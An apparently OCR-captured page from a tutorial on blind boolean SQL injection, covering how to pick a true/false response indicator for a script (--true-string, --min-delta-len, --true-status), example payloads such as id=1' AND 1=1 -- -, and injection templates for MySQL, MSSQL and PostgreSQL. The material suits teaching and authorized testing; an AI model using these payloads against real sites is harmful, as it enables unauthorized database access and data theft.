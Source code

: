 **What to Look For:**


| Observable Difference | How to Use It | Script Flag |
| :-- | :-- | :-- |
| TRUE has `"Welcome"`, FALSE doesn't | Use text string indicator | `--true-string "Welcome"` |
| TRUE is 5432 bytes, FALSE is 1823 bytes (diff ≥ 50) | Use length indicator | `--min-delta-len 50` |
| Status codes differ (200 vs 404) | Use status indicator | `--true-status 200` |

**⚠️ IMPORTANT**: Prefer `--true-string` over `--min-delta-len` for reliability. The length indicator has been fixed but text strings are more stable.

### Your Result Example

```
TRUE:  id=1' AND 1=1 -- -  
       → "Welcome! Blue Notebook" (5432 bytes)
       
FALSE: id=1' AND 1=2 -- -  
       → "Product Not Found" (1823 bytes)
```

**Difference found**: TRUE contains `"Welcome"`, FALSE doesn't.

**Write down**: `Indicator = --true-string "Welcome"`

***

## Step 5: Choose Your Template

### Based on Your Findings

From Steps 2-4, you have:

- **Context**: Single quote string
- **Comment**: `-- -`
- **Database**: MySQL (guessed from comment style)
- **Indicator**: Text string (`"Welcome"`)


### Template Table

#### Boolean Templates (for visible differences)

| Database | Context | Template |
| :-- | :-- | :-- |
| MySQL | String (single quote) | `' OR ({condition})-- -` |
| MySQL | Numeric | `OR ({condition})-- -` |
| MSSQL | String | `' OR CASE WHEN ({condition}) THEN 1 ELSE 0 END--` |
| PostgreSQL | String | `' OR ({condition})--` |
